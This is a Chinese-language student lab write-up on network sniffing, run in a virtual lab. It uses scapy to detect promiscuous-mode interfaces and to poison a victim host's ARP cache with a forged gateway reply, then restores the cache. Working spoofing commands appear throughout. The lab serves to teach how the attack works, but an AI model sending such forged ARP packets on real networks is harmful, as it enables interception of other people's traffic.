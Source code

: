 

# 网络监听

### 网络拓扑

![](img\网络拓扑.png)

![](img\attacker-kali.png)

![](img\victim-kali.png)

![](img\gateway-debian.png)

## 实验准备

### 安装scapy

在攻击者主机上提前安装好 scapy

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip
pip3 install scapy[complete]
```

## 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:a0:1f:82 brd ff:ff:ff:ff:ff:ff
```

![](img\检测受害者主机混杂模式.png)

```
# 在攻击者主机上开启 scapy
scapy
```

![](img\攻击者主机开启scapy.png)

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.2")
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:42:13:3e brd ff:ff:ff:ff:ff:ff
```

![](img\受害者主机状态.png)

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.2")
```

![](img\观察差异.png)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![](img\关闭受害者混杂模式.png)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 以下代码在攻击者主机上的 scapy 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![](C:\Users\CYT\Desktop\chap0x04\img\构造报文.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```

![](C:\Users\CYT\Desktop\chap0x04\img\发送ARP广播请求.png)

```
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.2
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.2", hwdst="08:00:27:11:5a:80")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
# 172.16.111.1 dev eth0 lladdr 08:00:27:27:28:3b STALE
# 172.16.111.2 dev eth0 lladdr 08:00:27:d4:ab:73 STALE
```

- 回到攻击者主机上的 scapy 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:d4:ab:73", pdst="172.16.111.2", hwdst="08:00:27:a0:1f:82")
sendp(restorepkt1, count=100, inter=0.2)
```

- 此时在受害者主机上准备“刷新”网关 ARP 记录。

```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
```

![](img\ping网关.png)

```
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

#### 参考链接

[ARP Cache Poisoning using Scapy](https://medium.datadriveninvestor.com/arp-cache-poisoning-using-scapy-d6711ecbe112)

[Linux操作系统中删除ARP缓存的命令](https://cloud.tencent.com/developer/article/1009956?from=14588)